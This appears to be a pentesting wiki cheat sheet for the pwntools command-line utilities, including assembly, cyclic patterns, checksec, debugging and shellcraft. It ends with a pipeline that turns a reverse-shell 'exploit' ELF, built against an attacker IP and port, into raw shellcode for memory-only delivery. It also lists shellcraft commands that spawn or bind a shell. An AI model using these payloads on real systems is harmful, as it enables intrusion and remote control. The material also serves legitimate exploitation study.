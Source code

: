 # PwnTools

```
pip3 install pwntools
```

## Pwn asm

Get **opcodes** from line or file.

```
pwn asm "jmp esp"
pwn asm -i <filepath>
```

**Can select:**

- output type (raw,hex,string,elf)
- output file context (16,32,64,linux,windows...)
- avoid bytes (new lines, null, a list)
- select encoder debug shellcode using gdb run the output

## **Pwn checksec**

Checksec script

```
pwn checksec <executable>
```

## Pwn constgrep

## Pwn cyclic

Get a pattern

```
pwn cyclic 3000
pwn cyclic -l faad
```

**Can select:**

- The used alphabet (lowercase chars by default)
- Length of uniq pattern (default 4)
- context (16,32,64,linux,windows...)
- Take the offset (-l)

## Pwn debug

Attach GDB to a process

```
pwn debug --exec /bin/bash
pwn debug --pid 1234
pwn debug --process bash
```

**Can select:**

- By executable, by name or by pid context (16,32,64,linux,windows...)
- gdbscript to execute
- sysrootpath

## Pwn disablenx

Disable nx of a binary

```
pwn disablenx <filepath>
```

## Pwn disasm

Disas hex opcodes

```
pwn disasm ffe4
```

**Can select:**

- context (16,32,64,linux,windows...)
- base addres
- color(default)/no color

## Pwn elfdiff

Print differences between 2 files

```
pwn elfdiff <file1> <file2>
```

## Pwn hex

Get hexadecimal representation

```bash
pwn hex hola #Get hex of "hola" ascii
```

## Pwn phd

Get hexdump

```
pwn phd <file>
```

**Can select:**

- Number of bytes to show
- Number of bytes per line highlight byte
- Skip bytes at beginning

## Pwn pwnstrip

## Pwn scrable

## Pwn shellcraft

Get shellcodes

```
pwn shellcraft -l #List shellcodes
pwn shellcraft -l amd #Shellcode with amd in the name
pwn shellcraft -f hex amd64.linux.sh #Create in C and run
pwn shellcraft -r amd64.linux.sh #Run to test. Get shell
pwn shellcraft .r amd64.linux.bindsh 9095 #Bind SH to port
```

**Can select:**

- shellcode and arguments for the shellcode
- Out file
- output format
- debug (attach dbg to shellcode)
- before (debug trap before code)
- after
- avoid using opcodes (default: not null and new line)
- Run the shellcode
- Color/no color
- list syscalls
- list possible shellcodes
- Generate ELF as a shared library

## Pwn template

Get a python template

```
pwn template
```

**Can select:** host, port, user, pass, path and quiet

## Pwn unhex

From hex to string

```
pwn unhex 686f6c61
```

## Pwn update

To update pwntools

```
pwn update
```

## ELF → raw shellcode packaging (loader_append)

Pwntools can turn a standalone ELF into a single raw shellcode blob that self‑maps its segments and transfers execution to the original entrypoint. This is ideal for memory‑only loaders (e.g., Android apps invoking JNI to execute downloaded bytes).

Typical pipeline (amd64 example)

1) Build a static, position‑independent payload ELF (musl recommended for portability):

```bash
musl-gcc -O3 -s -static -o exploit exploit.c \
  -DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```

2) Convert ELF → shellcode with pwntools:

```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
sc = asm(shellcraft.loader_append(elf.data, arch='amd64'))
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)} bytes, shellcode size={len(sc)} bytes")
```

3) Deliver sc to a memory loader (e.g., via HTTP[S]) and execute in‑process.

Notes
- loader_append embeds the original ELF program into the shellcode and emits a tiny loader that mmaps the segments and jumps to the entry.
- Be explicit about the architecture via context.clear(arch=...). arm64 is common on Android.
- Keep your payload’s code position‑independent and avoid assumptions about process ASLR/NX.

## References

- [Pwntools](https://docs.pwntools.com/en/stable/)
- [CoRPhone – ELF→shellcode pipeline used for Android in-memory execution](https://github.com/0xdevil/corphone)

